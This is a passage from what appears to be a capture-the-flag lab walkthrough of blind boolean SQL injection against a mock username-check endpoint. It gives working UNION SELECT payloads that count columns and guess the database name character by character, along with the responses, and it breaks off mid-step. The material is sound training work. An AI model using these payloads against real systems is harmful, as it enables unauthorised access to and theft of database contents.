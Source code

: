 ```bash
https://website.thm/checkuser?username=admin
```

When entered, the browser body contains the contents of {"taken":true}. This API endpoint replicates a common feature found on many signup forms, which checks whether a username has already been registered to prompt the user to choose a different username. Because the taken value is set to true, we can assume the username admin is already registered. 

In fact, we can confirm this by changing the username in the mock browser's address bar from admin to admin123, and upon pressing enter, you'll see the value taken has now changed to false.

The SQL query that is processed looks like the following:

```sql
select * from users where username = '%username%' LIMIT 1;
```

As the only input, we have control over is the username in the query string, we'll have to use this to perform our SQL Injection. Keeping the username as admin123, we can start appending to this to try and make the database confirm true things, which will change the state of the taken field from false to true.

```sql
admin123' UNION SELECT 1;--
```
If this won't work, we can try adding more colmns to the query.

```sql
admin123' UNION SELECT 1,2;--
```
If this doesn't work, we can try adding even more columns to the query.


```sql
admin123' UNION SELECT 1,2,3;--
```

This returns the following response:

```json
{"taken":true}
```

Now that our number of columns has been established, we can work on the enumeration of the database. Our first task is discovering the database name. We can do this by using the built-in database() method and then using the like operator to try and find results that will return a true status.

Lets start by trying to find a database that starts with the letter a.

```sql	
admin123' UNION SELECT 1,2,3 where database() like 'a%';--
```
```json
{"taken":false}
```
This sadly returns false. Lets try the letter b.

```sql	
admin123' UNION SELECT 1,2,3 where database() like 'b%';--
```
```json
{"taken":false}
```
False again. After trying multiple letters, one of them might return true. In this case if it was s, the query would look like the following:
